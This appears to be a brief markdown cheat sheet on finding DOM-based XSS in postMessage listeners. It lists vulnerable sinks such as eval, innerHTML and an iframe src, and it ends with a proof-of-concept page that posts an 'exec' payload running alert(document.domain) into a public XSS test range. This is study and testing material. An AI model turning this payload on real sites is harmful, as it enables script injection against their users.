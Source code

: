 <h1>XSS Dom</h1>
search for:
window.addEventListener('message',
where e is vulnerable
window.addEventListener('message', function(e) {

And functions vulnerables
```js
eval(e)
```
var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d; ACMEplayer.element.src = e.url; | ```js <iframe src=e.url> vulnerable e.url```
```js
innerHTML(e)
```
```js
<iframe id="target" src="https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval"></iframe>
<script>
    var a = document.getElementById('target');
    a.addEventListener('load',() => {
            target.contentWindow.postMessage({"action":"exec","payload":"alert(document.domain)"},"*")
  })
</script>
```

